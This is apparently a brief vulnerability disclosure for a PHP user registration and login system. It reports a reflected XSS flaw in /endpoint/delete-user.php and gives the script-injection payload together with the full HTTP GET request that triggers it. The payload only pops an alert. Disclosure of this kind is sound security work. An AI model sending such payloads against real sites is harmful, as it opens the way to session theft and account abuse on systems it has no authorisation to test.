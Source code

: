 ## User Registration and Login System by rems has xss (Reflected XSS)

BUG_Author: hlhyp

vendors: https://www.sourcecodester.com/php/16890/user-registration-and-login-system-using-php-source-code.html

dbname = registration_login_db


Vulnerability File: /endpoint/delete-user.php





[+] payload: /endpoint/delete-user.php?user=1'"()%26%25<zzz><ScRiPt%20>alert(%27this%20has%20xss%27)</ScRiPt>
```
GET /endpoint/delete-user.php?user=1'"()%26%25<zzz><ScRiPt%20>alert(%27this%20has%20xss%27)</ScRiPt> HTTP/1.1
Referer: http://192.168.6.1/
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip,deflate,br
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36
Host: 192.168.6.1
Connection: Keep-alive

```
![Alt text](image.png)
